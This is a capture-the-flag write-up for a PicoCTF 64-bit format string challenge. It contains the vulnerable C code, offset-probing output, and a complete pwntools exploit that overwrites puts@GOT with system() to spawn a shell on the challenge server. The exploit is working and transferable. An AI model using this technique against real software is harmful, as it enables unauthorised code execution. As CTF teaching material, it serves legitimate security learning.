

## 📘 PicoCTF Format String Exploit – Write-up

### 🧠 Challenge Summary

We are given a 64-bit Linux binary (`format-string-3`) that leaks the address of a libc function (`setvbuf`) at runtime, and also takes user input which is directly passed to `printf()` without format string sanitization.

This allows a **format string vulnerability**, which we exploit to overwrite the **GOT entry of `puts()`** with the address of **`system()`**, so that when the binary calls `puts("/bin/sh")`, it effectively executes `system("/bin/sh")` and gives us a shell.

---

## 🔍 Binary Analysis

### 🔸 Security Protections (`checksec`):

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE 
```

Key points:

* **No PIE** → GOT has fixed address.
* **Partial RELRO** → GOT entries are writable (critical for us).
* **Canary/NX** → Stack smashing won’t help here. Format string is the way.

---

### 🔸 Code Highlights

Here’s the critical part of the code:

```c
char *normal_string = "/bin/sh";

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    ...
    hello();    
    fgets(buf, 1024, stdin);	
    printf(buf);           // <-- 💀 format string vulnerability!
    puts(normal_string);   // <-- 🧨 our weapon: puts("/bin/sh");
}
```

Observations:

* `printf(buf)` is **not safe** — it allows format string attacks.
* `puts(normal_string)` will trigger **system("/bin/sh")** if we overwrite `puts@GOT` to `system`.

---

## 🎯 Exploit Strategy

### 1. **Leak libc address**

The binary prints the address of `setvbuf` in libc at runtime:

```c
printf("Here's the address of setvbuf: %p\n", &setvbuf);
```

### 2. **Calculate libc base**

We subtract the offset of `setvbuf` (from our local `libc.so.6`) to find the libc base address, and then calculate the address of `system()`.

### 3. **Overwrite GOT**

We overwrite the GOT entry of `puts()` with the address of `system()` using `fmtstr_payload()`. Since the binary calls `puts("/bin/sh")`, it will now call `system("/bin/sh")`.

---

#### Offset

```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x75f31ab443f0
AAAAAAAAA|%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
AAAAAAAAA|0x75f31aca2963.0xfbad208b.0x7ffe34b14ec0.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x4141414141414141.0x2e70252e70257c41.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xa2e7025.(nil).(nil).(nil).
```

here if we calculate the 4141414141414141 is at the offset of 38 


---

## 💥 Final Exploit Script

```python
from pwn import *

# === Setup ===
elf = context.binary = ELF('./format-string-3', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# === Config: Toggle local or remote ===
LOCAL = False
HOST = 'rhea.picoctf.net'
PORT = 50540

# === Start function ===
def start():
    if LOCAL:
        return process(['./ld-linux-x86-64.so.2', '--library-path', '.', './format-string-3'])
    else:
        return remote(HOST, PORT)

# === Begin exploit ===
p = start()

# Leak setvbuf address
p.recvuntil(b'setvbuf in libc: ')
leaked_setvbuf = int(p.recvline().strip(), 16)
log.success(f"Leaked setvbuf address: {hex(leaked_setvbuf)}")

# Calculate libc base
libc.address = leaked_setvbuf - libc.symbols['setvbuf']
system = libc.symbols['system']
log.success(f"Libc base: {hex(libc.address)}")
log.success(f"system() address: {hex(system)}")

# Overwrite puts@GOT with system()
puts_got = elf.got['puts']
log.info(f"puts@GOT address: {hex(puts_got)}")

# Format string offset (brute-forced or guessed)
offset = 38  # Adjusted after testing
payload = fmtstr_payload(offset, {puts_got: system}, write_size='short')

# Send payload
p.sendline(payload)

# Interactive shell (triggered automatically by puts("/bin/sh"))
p.interactive()
```

---

## 🧪 How to Run

**Locally** (if libc and loader provided):

```bash
$ python3 exploit.py  # with LOCAL = True
```

**Remotely** (e.g., for CTF server):

```bash
$ python3 exploit.py  # with LOCAL = False and HOST/PORT set
```

---

## 📌 Notes

* `offset = 38` was found using brute-force method like `%p` scanning.
* Using `write_size='short'` ensures smaller writes and increases reliability.
* Since the program calls `puts("/bin/sh")`, we don’t have to inject the string or do ROP.

---

## 🏁 Result

Upon successful GOT overwrite:




You can then:

```bash
$ id
$ cat flag.txt
```

---
